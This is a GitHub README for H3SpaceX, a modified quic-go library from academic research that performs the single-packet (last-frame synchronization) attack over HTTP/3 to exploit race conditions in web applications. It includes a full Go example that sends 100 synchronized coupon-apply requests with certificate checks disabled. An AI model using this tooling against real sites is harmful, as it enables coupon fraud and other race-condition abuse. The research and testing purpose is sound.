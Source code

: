 # H3SpaceX
H3SpaceX library is manipulated version of [quic-go](https://github.com/quic-go/quic-go) to 
enable the Single Packet Attack (Last Frame Synchronization) in HTTP/3 (QUIC). 
This library was part of an academic research with title of **Exploiting Race Conditions in Web Applications with HTTP/3**.

## Library Usage (how to exploit last frame synchronization - also known as single packet attack on HTTP/3)
There are two methods for exploiting last frame synchronization:

- Function `SendRequestsWithLastFrameSynchronizationMethod`:
- This function is for requests `which have body`!
- Function parameters:
  - first param gets QUIC connection (type: quic.Connection)
  - second param gets an array of requests which need to be sent.
  - third param is for number of bytes which needs to be kept from end of the DATA frame. (at least & best 1)
  - fourth param is for number of milliseconds which library waits before sending last DATA frames
  - fifth param is for setting or unsetting Content-Length header. If false, the Content-Header will not be set, unless you set it directly in requests headers
- Function return:
  - a map of requests with value of their response
```go
func SendRequestsWithLastFrameSynchronizationMethod(quicConn quic.Connection,
	allRequests []*http.Request,
	lastByteNum int,
	sleepMillisecondsBeforeSendingLastByte int,
	setContentLength bool,
) map[*http.Request]*http.Response
```

- Function `SendGetNoBodyRequestsWithSinglePacketAttackMethod`:
- This function is for requests `which do *not* have body`!
- Function parameters:
    - first param gets QUIC connection (type: quic.Connection)g
    - second param gets an array of requests which need to be sent.
- Function return:
    - a map of requests with value of their response
```go
func SendGetNoBodyRequestsWithSinglePacketAttackMethod(quicConn quic.Connection,
	allRequests []*http.Request,
) map[*http.Request]*http.Response
```

### Installation

    go get github.com/nxenon/h3spacex


### Steps to Call Functions
- Import libraries
- Create TLS config 
- Create QUIC config
- create a list of requests (use http3.GetRequestObject function) and append them into requests list
- Establish QUIC connection
- Call http3.SendRequestsWithLastFrameSynchronizationMethod `or` http3.SendGetNoBodyRequestsWithSinglePacketAttackMethod methods based on your needs
```go
package main

import (
	"crypto/tls"
	"fmt"
	"strings"

	"context"
	"github.com/nxenon/h3spacex"
	"github.com/nxenon/h3spacex/http3"
	"io"
	"net/http"
	"os"
	"time"
)

func main() {
	tlsConf := &tls.Config{
		InsecureSkipVerify: true,
		NextProtos:         []string{http3.NextProtoH3},
	}

	quicConf := &quic.Config{
		MaxIdleTimeout:  10 * time.Second,
		KeepAlivePeriod: 10 * time.Millisecond,
	}

	var allRequests []*http.Request

	headers := map[string]string{
		"Cookie":       "x=y",
		"Content-Type": "application/json", // sample
	}

	reqBody := "{\"couponValue\":\"Coupon1\"}"

	for i := 0; i < 100; i++ { // 100 requests
		req, err2 := http3.GetRequestObject("https://DOMAIN.COM/api/cart/apply_coupon", "POST", headers, []byte(reqBody))
		if err2 != nil {
			fmt.Println("Error creating request: ", err2)
			continue
		}
		allRequests = append(allRequests, &req)
	}

	dialAddress := "IP:PORT" // destination IP address and UDP port
	ctx := context.Background()
	quicConn, err := quic.DialAddr(ctx, dialAddress, tlsConf, quicConf)
	if err != nil {
		fmt.Printf("Error Connecting to %s. Erorr: %s", dialAddress, err)
		os.Exit(1)
	}

	allResponses := http3.SendRequestsWithLastFrameSynchronizationMethod(quicConn, allRequests, 1, 150, true)

	for req, res := range allResponses {
		fmt.Printf("for request to %s\n", req.URL)
		fmt.Println("+---Headers---+")
		fmt.Printf("Status Code: %d\n", res.StatusCode)
		for key, value := range res.Header {
			fmt.Printf("%s: %s\n", key, value[0])
		}
		fmt.Println("+---Body---+")
		body, err3 := io.ReadAll(res.Body)
		if err3 != nil {
			fmt.Println("Error reading response body:", err3)
			continue
		}
		fmt.Println(string(body))

	}
}

```


## Exploits Sample
See [Exploit](./exploit) Directory

## Lab (HTTP/2/3 Web Application)
For testing exploits see [Rc-H3-WebApp](https://github.com/nxenon/rc-h3-webapp/) repo.

## References
- [quic-go](https://github.com/quic-go/quic-go) as base library
